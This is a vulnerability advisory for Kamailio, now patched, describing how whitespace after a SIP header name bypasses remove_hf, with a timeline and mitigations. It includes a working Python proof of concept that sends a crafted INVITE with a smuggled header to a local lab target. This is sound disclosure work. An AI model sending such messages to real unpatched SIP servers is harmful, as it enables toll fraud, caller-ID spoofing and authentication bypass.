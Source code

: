 # Kamailio vulnerable to header smuggling possible due to bypass of remove_hf

- Fixed versions: Kamailio v5.4.0
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-01-kamailio-remove-hf>
- Tested vulnerable versions: 5.3.5 and earlier
- Timeline:
    - Report date & issue patched by Kamailio:  2020-07-16
    - Kamailio rewrite for header parser (better fix): 2020-07-16 to 2020-07-23
    - Kamailio release with fix: 2020-07-29
    - Enable Security advisory: 2020-09-01

## Description

Kamailio is often configured to remove certain special internal SIP headers from untrusted traffic to protect against header injection attacks by making use of the `remove_hf` function from the Kamailio `textops` module. These SIP headers were typically set through Kamailio which are then used downstream, e.g. by a media service based on Asterisk, to affect internal business logic decisions. During our tests and research, we noticed that the removal of these headers can be bypassed by injecting whitespace characters at the end of the header name.

Further discussion and details of this vulnerability can be found at the Communication Breakdown blog: https://www.rtcsec.com/2020/09/01-smuggling-sip-headers-ftw/.

## Impact

The impact of this security bypass greatly depends on how these headers are used and processed by the affected logic. In a worst case scenarios, this vulnerability could allow toll fraud, caller-ID spoofing and authentication bypass.

## How to reproduce the issue

We prepared a docker-compose environment to demonstrate a vulnerable setup which can be found at <https://github.com/EnableSecurity/advisories/tree/master/ES2020-09-kamailio-remove-hf/repro>. The following python code could then be used to reproduce the issue:

```python
#!/usr/bin/env python3
sipmsg  = "INVITE sip:headerbypass@localhost SIP/2.0\r\n"
sipmsg += "Via: SIP/2.0/UDP 127.0.0.1:48017;rport;branch=z9hG4bK-%s\r\n"
sipmsg += "Max-Forwards: 70\r\n"
sipmsg += "From: <sip:anon@localhost>;tag=%s\r\n"
sipmsg += "To: sip:whatever@whatever.local\r\n"
sipmsg += "Call-ID: %s\r\n"
sipmsg += "CSeq: 1 INVITE\r\n"
sipmsg += "Contact: <sip:1000@127.0.0.1:48017;transport=udp>\r\n"
sipmsg += "X-Bypass-me : lol\r\n"
sipmsg += "Content-Length: 237\r\n"
sipmsg += "Content-Type: application/sdp\r\n"
sipmsg += "\r\n"
sipmsg += "v=0\r\n"
sipmsg += "o=- 1594727878 1594727878 IN IP4 127.0.0.1\r\n"
sipmsg += "s=-\r\n"
sipmsg += "c=IN IP4 127.0.0.1\r\n"
sipmsg += "t=0 0\r\n"
sipmsg += "m=audio 58657 RTP/AVP 0 8 96 101\r\n"
sipmsg += "a=rtpmap:101 telephone-event/8000/1\r\n"
sipmsg += "a=rtpmap:0 PCMU/8000/1\r\n"
sipmsg += "a=rtpmap:8 PCMA/8000/1\r\n"
sipmsg += "a=rtpmap:96 opus/8000/2\r\n"
sipmsg += "a=sendrecv\r\n"

target = ("127.0.0.1",5060)

import socket
import time
from random import randint
s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
s.bind(("0.0.0.0",5088))
r = randint(1000,9999)
data = sipmsg % (r,r,r)
s.sendto(data.encode("utf-8"), target)
while True:
    data,addr=s.recvfrom(4096)
    print(data.decode("utf-8"))
    time.sleep(5)
```

In the case of a vulnerable version of Kamailio, Asterisk would respond with a 200 OK while in a fix version, you would get a 603 Decline response.

## Solutions and recommendations

The official Kamailio fix has been tested and found to sufficiently address this security flaw. We recommend making use of the latest release or backporting the fixes where possible. Making use of regular expressions to cover white-space characters with `remove_hf_re` has been suggested as mitigation for this issue for cases where the code cannot be upgraded.

Enable Security would like to thank Daniel-Constantin Mierla of the Kamailio Project for the very quick response and fix within minutes of our report being made available to him, as well as Torrey Searle for reporting this issue quickly to the Kamailio team.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

